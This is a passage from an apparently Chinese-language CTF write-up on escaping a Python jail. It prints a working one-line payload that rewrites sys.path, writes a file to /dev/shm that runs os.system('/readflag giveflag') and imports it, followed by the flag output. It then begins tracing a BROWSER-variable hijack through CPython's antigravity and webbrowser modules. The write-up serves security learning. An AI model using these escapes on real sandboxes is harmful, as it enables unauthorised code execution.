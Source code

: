 其分别为
1. `setattr(__import__("sys"), "path", list(("/dev/shm/",)))`
2. `print("import os" + chr(10) + "print(os" + chr(46) + "system('/readflag giveflag'))", file=open("/dev/shm/exp" + chr(46) + "py", "w"))`
3. `__import__("exp")`

组合成payload:

```python
(setattr(__import__("sys"), "path", list(("/dev/shm/",))), print("import os" + chr(10) + "print(os" + chr(46) + "system('/readflag giveflag'))", file=open("/dev/shm/exp" + chr(46) + "py", "w")), __import__("exp"))
```

结果:

```
welcome!
>>> (setattr(__import__("sys"), "path", list(("/dev/shm/",))), print("import os" + chr(10) + "print(os" + chr(46) + "system('/readflag giveflag'))", file=open("/dev/shm/exp" + chr(46) + "py", "w")), __import__("exp"))
idek{what_used_to_be_a_joke_has_now_turned_into_an_pyjail_escape.How_wonderful!}
0
(None, None, <module 'lol' from '/dev/shm/exp.py'>)
```

当然应该是环境问题导致的情况,其远程环境的`/tmp`是只读的,但是其实应该可写.其上述路径如果在`tmp`可写的话也可以完成相关的payload.

#### 方法3 antigravity劫持BROWSER环境变量:

并且`antigravity`可以从这里看出https://towardsdatascience.com/7-easter-eggs-in-python-7765dc15a203

本解法来自于作者的预期解,本题很有意思.利用`setattr`覆盖到`os.environ`中的环境变量`BROWSER` 从而可以执行.跟踪一下
https://github.com/python/cpython/blob/main/Lib/antigravity.py

```python
import webbrowser
import hashlib

webbrowser.open("https://xkcd.com/353/")

def geohash(latitude, longitude, datedow):
    '''Compute geohash() using the Munroe algorithm.
    >>> geohash(37.421542, -122.085589, b'2005-05-26-10458.68')
    37.857713 -122.544543
    '''
    # https://xkcd.com/426/
    h = hashlib.md5(datedow, usedforsecurity=False).hexdigest()
    p, q = [('%f' % float.fromhex('0.' + x)) for x in (h[:16], h[16:32])]
    print('%d%s %d%s' % (latitude, p[1:], longitude, q[1:]))
```

发现其调用了`webbrowser`,继续跟踪一下
可以从这里看到open函数里存在`register_standard_browsers` https://github.com/python/cpython/blob/main/Lib/webbrowser.py#L84

```python
def open(url, new=0, autoraise=True):
    """Display url using the default browser.
    If possible, open url in a location determined by new.
    - 0: the same browser window (the default).
    - 1: a new browser window.
    - 2: a new browser page ("tab").
    If possible, autoraise raises the window (the default) or not.
    """
    if _tryorder is None:
        with _lock:
            if _tryorder is None:
                register_standard_browsers()
```
